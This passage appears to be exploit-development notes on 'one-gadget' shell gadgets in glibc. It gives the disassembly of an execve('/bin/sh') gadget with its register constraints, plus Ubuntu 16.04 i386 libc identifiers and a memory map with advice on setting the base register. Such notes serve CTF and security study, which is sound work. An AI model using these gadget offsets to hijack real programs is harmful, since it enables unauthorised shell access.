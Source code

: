 ### 0xcc748

-   `rax = NULL`
-   `r12 = NULL`

``` asm
00000000000cc748 <execvpe@@GLIBC_2.11+1128>:
   cc748:	48 8d 3d 3c fe 0b 00 	lea    rdi,[rip+0xbfe3c]        # 18c58b "/bin/sh"
   cc74f:	48 89 c6             	mov    rsi,rax
   cc752:	e9 38 fe ff ff       	jmp    cc58f <execvpe@@GLIBC_2.11+0x2af>
00000000000cc58f <execvpe@@GLIBC_2.11+0x2af>:
   cc58f:	4c 89 e2             	mov    rdx,r12
   cc592:	e8 59 f7 ff ff       	call   cbcf0 <execve@@GLIBC_2.2.5>
```

---

# one-gadget RCE in Ubuntu 16.04 libc

## Ubuntu 16.04, x86

``` sh
$ md5sum /lib/i386-linux-gnu/libc.so.6
fc751657457c0420d5e07d4c905bdc34  /lib/i386-linux-gnu/libc.so.6

$ /lib/i386-linux-gnu/libc.so.6
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu3) stable release version 2.23, by Roland McGrath et al.
Copyright (C) 2016 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 5.3.1 20160413.
Available extensions:
	crypt add-on version 2.1 by Michael Glad and others
	GNU Libidn by Simon Josefsson
	Native POSIX Threads Library by Ulrich Drepper et al
	BIND-8.2.3-T5B
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

### memo

In the libc, the `esi` register is used to have the address of the `rw-p` area of libc (`0xf7faa000` in below example).
This is used as a base address, so you must set this correct to use one-gadget RCE.
Buf fortunately, `esi` is not required to be preserved, so you can get this only to call a function in libc.

``` asm
gdb-peda$ vmmap
Start      End        Perm      Name
0x08048000 0x08049000 r-xp      /home/user/a.out
0x08049000 0x0804a000 r--p      /home/user/a.out
0x0804a000 0x0804b000 rw-p      /home/user/a.out
0xf7df8000 0xf7fa7000 r-xp      /lib/i386-linux-gnu/libc-2.23.so
0xf7fa7000 0xf7fa8000 ---p      /lib/i386-linux-gnu/libc-2.23.so
0xf7fa8000 0xf7faa000 r--p      /lib/i386-linux-gnu/libc-2.23.so
0xf7faa000 0xf7fab000 rw-p      /lib/i386-linux-gnu/libc-2.23.so
0xf7fab000 0xf7fae000 rw-p      mapped
0xf7fd4000 0xf7fd6000 rw-p      mapped
0xf7fd6000 0xf7fd8000 r--p      [vvar]
0xf7fd8000 0xf7fd9000 r-xp      [vdso]
```